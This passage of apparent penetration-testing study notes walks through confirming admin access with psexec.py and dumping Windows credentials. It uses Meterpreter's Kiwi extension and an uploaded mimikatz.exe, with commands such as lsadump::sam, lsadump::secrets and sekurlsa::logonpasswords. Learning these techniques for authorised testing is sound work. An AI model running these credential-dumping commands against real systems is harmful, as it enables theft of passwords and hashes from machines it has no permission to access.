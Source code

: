 Can verify it is the right credentials with <mark style="background: #D2B3FFA6;">psexec</mark> 
+ Example: `psexec.py Administrator@10.3.21.57`
	+ It will then ask for the password
+ Now have access to the target system as an admin 

### Dumping Hashes With Mimikatz 

#### Mimikatz ####
+ <mark style="background: #D2B3FFA6;">Mimikatz</mark> is a Windows post-exploitation tool written by Benjamin Delpy
	+ <mark style="background: #FFF3A3A6;">Allows for the extraction of clear-text passwords</mark>, hashes and Kerberos tickets from memory 
+ The <mark style="background: #BBFABBA6;">SAM</mark> (Security Account Manager) database, is a database file on Windows systems that <mark style="background: #ADCCFFA6;">stores hashed user passwords</mark>
+ <mark style="background: #D2B3FFA6;">Mimikatz</mark> can be used to extract hashes from the <mark style="background: #BBFABBA6;">lsass.exe</mark> process memory where hashes are cached 
+ Can utilize the pre-compiled mimikatz executable, alternatively, if we have have access to a meterpreter session on a Windows target, can utilize the inbuilt <mark style="background: #FF5582A6;">meterpreter</mark> extension <mark style="background: #D2B3FFA6;">Kiwi</mark> 

<mark style="background: #FF5582A6;">NOTE</mark>: Mimikatz require's elevate privileges in order to run correctly 

Can find the process ID for <mark style="background: #BBFABBA6;">lsass</mark> with:
  + `pgrep lsass`
  + With admin privileges, can `migrate` to that process
  + Will now run `getuid`, if `NT AUTHORITY\SYSTEM`, we now have the highest privileges 

Will now start using <mark style="background: #D2B3FFA6;">kiwi</mark>
+ `load kiwi`
+ can see help menu with `?`
+ `creds_all` will dump all credentials 
	+ Though later windows versions do not store clear text passwords at all
+ `lsa_dump_sam` will drop all the NTLM hashes for the users on the system
	+ can provide the SysKey 
+ `lsa_dump_secrets` can provide some clear text credentials in some cases 

Can upload <mark style="background: #D2B3FFA6;">Mimikatz</mark> executable with the following:
+ Will need to upload with a meterpreter session, and should make or use the `Temp` folder
+ `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
+ Will the start a command shell session with `shell`
+ can executive it with `.\mimikatz.exe`
+ Now that mimikatz has started, will check if we have permissions to use it with `privilege::debug`
	+ if we get `Privilege '20' OK`, we can run it 
+ Can now dump the hashes with: `lsadump::sam`
	+ will provide <mark style="background: #ADCCFFA6;">much more information</mark> then <mark style="background: #D2B3FFA6;">kiwi</mark> 
+ can dump secrets with `lsadump::secrets`
+ can also potentially <mark style="background: #FFF3A3A6;">see clear text login passwords</mark> with `sekurlsa::logonpasswords`
